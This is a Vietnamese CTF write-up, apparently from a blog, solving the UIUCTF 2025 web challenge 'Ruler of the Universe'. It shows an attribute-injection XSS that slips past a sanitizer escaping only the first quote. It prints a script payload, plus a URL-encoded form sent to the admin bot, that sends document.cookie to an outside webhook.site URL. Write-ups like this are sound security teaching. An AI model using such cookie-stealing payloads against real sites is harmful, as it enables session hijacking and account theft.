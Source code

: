 ## UIUCTF2025

End: July 26, 2025
Start: July 28, 2025
Files & media: ![UIUCTF.webp](/assets/img/posts/UIUCTF2025/UIUCTF.webp)
URL: https://ctfd-2025.uiuc.tf/

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```

đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`

> flag : uiuctf{maybe_i_should_just_use_react_c49b79}{: .prompt-tip }

## Sẽ cập nhập thêm trong thời gian tới…
